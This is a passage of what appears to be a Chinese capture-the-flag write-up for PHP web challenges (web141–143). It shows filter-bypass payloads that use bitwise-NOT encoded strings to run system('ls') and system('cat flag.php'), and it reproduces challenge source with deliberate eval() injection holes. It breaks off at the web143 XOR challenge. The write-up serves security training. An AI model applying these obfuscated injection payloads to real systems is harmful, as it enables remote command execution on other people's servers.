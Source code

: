 取反构造

payload:

```php
?v1=1&v2=1&v3=-(~%8C%86%8C%8B%9A%92)(~%93%8C)-   # system(ls)
  
?v1=1&v2=1&v3=-(~%8C%86%8C%8B%9A%92)(~%9C%9E%8B%DF%99%93%9E%98%D1%8F%97%8F)-    # system('cat flag.php')
```

[取反脚本](https://blog.csdn.net/miuzzx/article/details/109197158)



## web142

```php
<?php
    
error_reporting(0);
highlight_file(__FILE__);
if(isset($_GET['v1'])){
    $v1 = (String)$_GET['v1'];
    if(is_numeric($v1)){
        $d = (int)($v1 * 0x36d * 0x36d * 0x36d * 0x36d * 0x36d);
        sleep($d);
        echo file_get_contents("flag.php");
    }
}
```

直接

```php
?v1=0
    
?v1=0x0
```

## web143~异或 * 

```php
<?php

highlight_file(__FILE__);
if(isset($_GET['v1']) && isset($_GET['v2']) && isset($_GET['v3'])){
    $v1 = (String)$_GET['v1'];
    $v2 = (String)$_GET['v2'];
    $v3 = (String)$_GET['v3'];
    if(is_numeric($v1) && is_numeric($v2)){
        if(preg_match('/[a-z]|[0-9]|\+|\-|\.|\_|\||\$|\{|\}|\~|\%|\&|\;/i', $v3)){
                die('get out hacker!');
        }
        else{
            $code =  eval("return $v1$v3$v2;");
            echo "$v1$v3$v2 = ".$code;
        }
    }
} 
```
